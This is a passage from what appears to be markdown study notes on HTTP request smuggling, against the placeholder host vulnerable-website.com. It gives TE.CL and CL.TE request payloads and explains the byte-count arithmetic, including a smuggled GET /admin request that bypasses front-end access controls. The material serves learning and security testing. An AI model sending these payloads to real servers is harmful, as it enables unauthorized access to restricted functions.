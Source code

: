 The server will respond with status code 404, indicating that the attack successful.

### TE.CL

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0\r\n
\r\n
```

`7b` -> all chars from `GET` until `x=`

`Content-Length: 4` -> `7` `c` `\r` `\n`

> **Note**: Update Content-Length must be unchecked.

---

## Exploitation

### Bypass front-end security controls

**CL.TE**

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```

When you go to `/home`, the following request will be made&#x20;

```http
GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
